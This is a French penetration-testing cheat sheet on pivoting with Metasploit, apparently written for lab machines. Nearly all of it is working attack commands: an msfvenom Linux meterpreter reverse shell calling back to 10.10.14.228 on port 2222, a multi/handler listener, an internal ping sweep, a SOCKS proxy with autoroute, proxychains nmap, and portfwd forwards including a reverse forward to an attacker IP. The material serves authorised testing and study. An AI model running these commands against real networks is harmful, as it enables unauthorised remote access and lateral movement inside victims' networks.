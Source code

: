 ```yaml
---
public: true # set to true to make the article publishable
---
```


- Générer un reverse shell avec [[msfvenom]]
- Après avoir exécuté le reverse shell et obtenu une session meterpreter :

## Scan des hôtes répondant à l'ICMP depuis la machine de rebond (pivot)

```
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.228 LPORT=2222 -f elf > shell-2222.elf

msf6> **use exploit/multi/handler
set LHOST tun0
set LPORT 2222
set PAYLOAD linux/x64/meterpreter/reverse_tcp
run


```

## Pivot via Meterpreter

```
# 1 - Etablir une session meterpreter
use exploit/multi/handler
set LHOST tun0
set LPORT 2222
set PAYLOAD linux/x64/meterpreter/reverse_tcp

# 2 - lancer le serveur socks
use auxiliary/server/socks_proxy
set SRVHOST 0.0.0.0
set SRVPORT 1080
set VERSION 4a
run

# 3 - Connecter le socks à notre session meterpreter (7 in the example)
use post/multi/manage/autoroute
set SESSION 7
run

# 4 - Tester avec proxychain
proxychains nmap $TARGET_IP -p3389 -sT -v -Pn

```

## Redirection de port via Meterpreter

```
Usage: portfwd [-h] [add | delete | list | flush] [args]
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
    -R        Indicates a reverse port forward.

# exemple rendant accessible localhost:1234 --> 1.2.3.4 depuis kali
meterpreter > portfwd add -l 1234 -p 3389 -r 1.2.3.4

# reverse port forwarding (on poura lancer un listener sur le port 1234)
meterpreter > portfwd add -R -l 2222 -p 1234 -L <ATTACKER IP>
   Traffic entrant --> Meterpreter client (port 2222) --> Attaquant (1234)
```
